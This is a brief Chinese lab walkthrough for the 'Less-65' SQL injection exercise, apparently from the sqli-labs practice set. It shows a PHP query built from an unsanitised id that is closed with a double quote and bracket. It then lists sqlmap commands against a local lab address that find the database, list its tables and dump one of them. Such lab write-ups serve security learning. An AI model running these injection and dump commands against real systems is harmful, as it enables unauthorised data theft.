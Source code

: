 ```yaml
---
title: less65
url: https://www.yuque.com/u29002979/ep2zrx/grncbn27lnnihxeu
---
```


```bash
$id = '"'.$id.'"';
// Querry DB to get the correct output
$sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1";
```

最后的闭合方式为双引号加小括号**") ** <a name="tTcqx"></a>

# sqlmap

`sqlmap -u http://192.168.31.193/Less-65/?id=1 --current-db `

> challenges

`sqlmap -u http://192.168.31.193/Less-65/?id=1 -D challenges --tables`

> ha0jys304v

`sqlmap -u http://192.168.31.193/Less-65/?id=1 -D challenges -T ha0jys304v --dump`

> WNpZ8ZytUpExmC9fRdiAtLF2
